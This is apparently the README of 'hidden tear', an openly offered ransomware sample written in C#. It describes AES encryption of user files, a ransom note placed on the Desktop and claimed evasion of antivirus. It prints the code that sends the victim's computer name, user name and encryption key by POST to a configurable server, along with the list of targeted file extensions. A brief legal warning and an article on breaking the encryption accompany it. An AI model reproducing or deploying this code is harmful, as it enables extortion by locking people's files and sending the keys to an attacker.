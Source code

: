          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific educational purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server where the info remains. Change this line with your URL. (You better use HTTPS for more security)

  `string targetURL = "http://localhost/info/index.php";`

* The script do the POST request to the server (targetURL). Sending process running in `SendPassword()` function

  ```
  
using (var client = new WebClient())
   {
       var values = new NameValueCollection();
       values["computerName"] = computerName;
       values["userName"] = userName;
       values["password"] = password;
       client.UploadValues(targetURL, "POST", values);
   }
   
  ```
* Example of target file extensions that can be changed:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
**Article: Destroying The Encryption of Hidden Tear Ransomware** 

http://www.utkusen.com/blog/destroying-the-encryption-of-hidden-tear-ransomware.html

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
